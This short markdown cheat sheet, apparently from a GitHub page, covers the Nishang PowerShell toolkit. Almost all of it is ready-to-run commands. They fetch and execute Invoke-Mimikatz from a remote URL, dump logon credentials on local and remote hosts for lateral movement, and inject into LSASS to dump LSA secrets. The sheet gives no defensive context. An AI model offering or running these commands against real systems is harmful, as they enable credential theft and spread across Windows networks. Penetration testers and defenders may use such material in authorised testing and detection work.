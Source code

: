 # Nishang

## 01 - Invoke-Mimikatz

### 1.1 - LogonPasswords

```
C:\> powershell.exe -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

Lateral movement.

```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")

PS C:\> Invoke-Mimikatz -DumpCreds -Computername <IP_1>,<IP_2>,<IP_n>
```

### 1.2 - LSASS Injection

```
PS C:\> Invoke-Mimikatz -Command '"privilege::debug" "lsadump::lsa /inject"' -Computer <IP>
```